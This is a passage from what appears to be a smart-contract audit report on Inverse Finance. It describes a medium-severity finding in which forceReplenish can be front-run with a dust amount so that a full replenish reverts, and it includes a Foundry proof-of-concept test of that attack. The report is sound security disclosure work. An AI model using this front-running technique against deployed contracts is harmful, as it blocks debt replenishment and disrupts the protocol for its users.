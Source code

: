 **[08xmt (Inverse) confirmed and commented](https://github.com/code-423n4/2022-10-inverse-findings/issues/419#issuecomment-1315243835):**

> [https://github.com/InverseFinance/FrontierV2/pull/17](https://github.com/InverseFinance/FrontierV2/pull/17).
> 
> Added a variant of this solution: [https://github.com/code-423n4/2022-10-inverse-findings/issues/419#issuecomment-1313694712](https://github.com/code-423n4/2022-10-inverse-findings/issues/419#issuecomment-1313694712).

* * *

[](#m-13-marketforcereplenish-can-be-dosed)[\[M-13\] `Market::forceReplenish` can be DoSed](https://github.com/code-423n4/2022-10-inverse-findings/issues/443)
--------------------------------------------------------------------------------------------------------------------------------------------------------------

_Submitted by [immeas](https://github.com/code-423n4/2022-10-inverse-findings/issues/443)_

[Market.sol#L562](https://github.com/code-423n4/2022-10-inverse/blob/main/src/Market.sol#L562)  

If a user wants to completely `forceReplenish` a borrower with deficit, the borrower or any other malicious party can front run this with a dust amount to prevent the replenish.

### [](#proof-of-concept-11)Proof of Concept

        function testForceReplenishFrontRun() public {
            gibWeth(user, wethTestAmount);
            gibDBR(user, wethTestAmount / 14);
            uint initialReplenisherDola = DOLA.balanceOf(replenisher);
    
            vm.startPrank(user);
            deposit(wethTestAmount);
            uint borrowAmount = getMaxBorrowAmount(wethTestAmount);
            market.borrow(borrowAmount);
            uint initialUserDebt = market.debts(user);
            uint initialMarketDola = DOLA.balanceOf(address(market));
            vm.stopPrank();
    
            vm.warp(block.timestamp + 5 days);
            uint deficitBefore = dbr.deficitOf(user);
            vm.startPrank(replenisher);
    
            market.forceReplenish(user,1); // front run DoS
    
            vm.expectRevert("Amount > deficit");
            market.forceReplenish(user, deficitBefore); // fails due to amount being larger than deficit
            
            assertEq(DOLA.balanceOf(replenisher), initialReplenisherDola, "DOLA balance of replenisher changed");
            assertEq(DOLA.balanceOf(address(market)), initialMarketDola, "DOLA balance of market changed");
            assertEq(DOLA.balanceOf(replenisher) - initialReplenisherDola, initialMarketDola - DOLA.balanceOf(address(market)),
                "DOLA balance of market did not decrease by amount paid to replenisher");
            assertEq(dbr.deficitOf(user), deficitBefore-1, "Deficit of borrower was not fully replenished");
    
            // debt only increased by dust
            assertEq(market.debts(user) - initialUserDebt, 1 * replenishmentPriceBps / 10000, "Debt of borrower did not increase by replenishment price");
        }
